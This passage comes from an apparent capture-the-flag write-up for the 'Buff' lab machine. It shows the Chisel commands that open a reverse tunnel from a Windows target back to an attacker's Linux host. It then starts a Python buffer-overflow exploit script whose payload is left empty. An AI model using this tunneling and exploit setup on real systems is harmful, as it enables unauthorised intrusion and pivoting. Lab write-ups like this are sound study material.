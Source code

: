 Chisel will act for us as follows:

- [Linux machine]: Chisel Server
- [Windows machine]: Chisel Client

To establish this, in our Linux machine (Attacker) we will execute in the directory where chisel is located:
```bash
./chisel server --reverse -p [PORT]
```
![chiselserver](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/chiselserver.PNG)

To establish this, in our Windows machine (Target) we will execute in the directory where chisel is located:
(Here, "PORT" has to be the same as in the previous command)
```bash
./chisel.exe client [Linux IP]:[PORT] R:8888:127.0.0.1:8888
```
![chiselclient](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/chiselclient.PNG)

**These commands indicate that traffic received on port 8888 on the Windows machine will be redirected through the tunnel created by Chisel to port 8888 on the Linux machine.** 

Now we will be working on the following python3 script
```python3
#!/usr/bin/python3

import socket, signal, sys

def def_handler(sig, frame):
    print("\n\n[!]Exiting...\n")
    sys.exit(1)

#Ctrl + C
signal.signal(signal.SIGINT, def_handler)

#Global
ip_address = "127.0.0.1"
payload = b""

def makeConnection(): #This is the core, here we want to achieve the Buffer Overflow to achieve RCE.

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 8888))
    s.send(payload)


if __name__ == '__main__':

```